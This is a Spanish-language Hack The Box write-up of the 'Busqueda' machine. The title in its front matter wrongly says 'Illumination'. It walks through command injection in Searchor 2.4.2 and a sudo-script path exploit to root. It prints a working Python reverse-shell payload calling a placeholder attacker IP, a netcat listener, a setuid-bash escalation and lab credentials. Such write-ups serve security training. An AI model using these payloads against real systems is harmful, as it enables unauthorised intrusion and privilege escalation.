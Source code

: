 ```yaml
---
layout: single
title: Illumination - Challenges - Forensics - Hack The Box
excerpt: "Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root."
date: 2023-08-23
classes: wide
header:
  teaser: /assets/images/htb-challenges-forensics-illumination/illumination.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
 
tags:  
  - burpsuite
  - Command Injection
  - python
  - RCE
  
---
```


![](/assets/images/htb-challenges-forensics-illumination/illumination.png)

Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root.

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
•	22 de SSH 
•	80 de HTTP

![](/assets/images/htb-writeup-busqueda/portscan.png)

Realizamos un “Curl” para obtener información adicional.

![](/assets/images/htb-writeup-busqueda/curl.png)

Agregamos el dominio encontrado en el archivo “/etc/hosts” para que sepa a donde resolver cuando apuntemos a él.

![](/assets/images/htb-writeup-busqueda/hosts.png)

## Website
Navegamos hasta el servicio web. Encontramos que es una aplicación que se utiliza para realizar búsquedas con diferentes buscadores.

•	https://github.com/ArjunSharda/Searchor.

![](/assets/images/htb-writeup-busqueda/web.png)

## Burp Suite
Vamos a realizar una búsqueda cualquiera e interceptamos la petición con BurpSuite.

![](/assets/images/htb-writeup-busqueda/burp.png)

# 2. Explotación

Realizamos la busqueda de posible exploit para el buscardor "searchor".

•	Exploit: https://github.com/jonnyzar/POC-Searchor-2.4.2

Debemos inyectar una carga en la peticion interceptada por Burp.

Carga Util:

•	', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('IP-ATACANTE',PORT-ATACANTE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

Interceptamos la petición con BurpSuite y agregamos nuestra carga útil.

![](/assets/images/htb-writeup-busqueda/burp2.png)

Paralelamente debemos ponernos en escucha por el puerto donde vamos a recivbir nuestra conexión (4444) y enviamos la petición desde Burp Suit.
•	nc -nlvp 444
Luego de enviar la peicion, vamos a recibir nuestra shell de la maquina, ahora generamos una terminal ( tty) mas facil de maenjar a través de Python y capturamos nuestra flag de usuario estandar.

![](/assets/images/htb-writeup-busqueda/rever.png)

## 3. Escalación de Privilegios

Listamos el directorio /var/www/app y encontramos “.git”.

![](/assets/images/htb-writeup-busqueda/list.png)

Nos dirigimos al directorio encontrado y volvemos a listar. Ahora encontramos un archivo de configuración.

![](/assets/images/htb-writeup-busqueda/config.png)

Leemos el archivo y encontramos un usuario y una contraseña asociado a un acceso a un dominio.

![](/assets/images/htb-writeup-busqueda/config2.png)

Nos conectamos por ssh con esas credenciales.

![](/assets/images/htb-writeup-busqueda/ssh.png)

Reutilizamos la contraseña para saber que permisos SUDO tiene el usuario “svc”.

![](/assets/images/htb-writeup-busqueda/sudo.png)

No podemos leer el archivo, pero podemos ver algunos de los parámetros permitidos.

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py *

![](/assets/images/htb-writeup-busqueda/sudo2.png)

![](/assets/images/htb-writeup-busqueda/sudo3.png)

•	Enlace: https://docs.docker.com/engine/reference/commandline/inspect/

•	sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db

![](/assets/images/htb-writeup-busqueda/sudo4.png)


Credenciales:

•	yuiu1hoiu4i5ho1uh

•	jI86kGUuj87guWr3RyF



#!/bin/bash 
chmod +s /bin/bash
cat full-checkup.sh
chmod +x full-checkup.sh


![](/assets/images/htb-writeup-busqueda/sudo5.png)

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

•	ls -l /bin/bash

•	bash -p

Luego de cambiar a usuario root, capturamos nuestra flag.

•	whoami

•	cat /root/root.txt

![](/assets/images/htb-writeup-busqueda/sudo6.png)

